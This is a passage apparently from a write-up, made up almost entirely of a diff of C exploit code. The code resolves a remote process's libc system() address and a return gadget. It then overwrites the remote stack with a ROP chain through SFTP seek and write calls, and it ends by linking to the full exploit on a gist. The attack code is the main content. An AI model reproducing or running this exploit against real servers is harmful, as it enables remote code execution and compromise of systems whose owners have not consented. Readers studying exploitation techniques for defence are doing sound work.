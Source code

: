 ```bash
>   printf("offset %x from libc is mapped to %x-%x\n", offset, start_addr, end_addr);
156,159c156,159
<   long long system_offset;
<   if (sscanf(system_offset_str, "%Lx", &system_offset) != 1) perror("scanf failed"), exit(1);
<   long long remote_system_addr = start_addr+system_offset-offset;
<   printf("remote system() function is at %Lx\n", remote_system_addr);
---
>   int system_offset;
>   if (sscanf(system_offset_str, "%x", &system_offset) != 1) perror("scanf failed"), exit(1);
>   int remote_system_addr = start_addr+system_offset-offset;
>   printf("remote system() function is at %x\n", remote_system_addr);
164,166c164,166
<   long long gadget_address = start_addr + (gadget-(libc+offset));
<   long long ret_address = gadget_address+1;
<   printf("found gadget at %Lx\n", gadget_address);
---
>   int gadget_address = start_addr + (gadget-(libc+offset));
>   int ret_address = gadget_address+1;
>   printf("found gadget at %x\n", gadget_address);
168c168
<   printf("remote stack is at %Lx-%Lx\n", stack_start_addr, stack_end_addr);
---
>   printf("remote stack is at %x-%x\n", stack_start_addr, stack_end_addr);
171c171
<   long long stack_len = stack_end_addr - stack_start_addr;
---
>   int stack_len = stack_end_addr - stack_start_addr;
179c179
<   for (long long *s = (void*)new_stack; s<(long long*)(new_stack+stack_len); s++) {
---
>   for (int *s = (void*)new_stack; s<(int*)(new_stack+stack_len); s++) {
188,191c188,191
<   long long *se = (void*)(new_stack + stack_len);
<   se[-3] = gadget_address;
<   se[-2] = stack_start_addr;
<   se[-1] = remote_system_addr;
---
>   int *se = (void*)(new_stack + stack_len);
>   se[-2] = gadget_address;
>   se[-1] = stack_start_addr;
>   se[-3] = remote_system_addr;
198c198
<   rc = sftp_seek64(mem, stack_start_addr);
---
>   rc = sftp_seek(mem, stack_start_addr);
205c205
<     rc = sftp_seek64(mem, stack_start_addr+off);
---
>     rc = sftp_seek(mem, stack_start_addr+off);
212c212
< }
\ No newline at end of file
---
> }
```
The full exploit can be found on [my gist](https://gist.github.com/Reboare/1b6c43a819f840fbc40e613dac0080cd)!
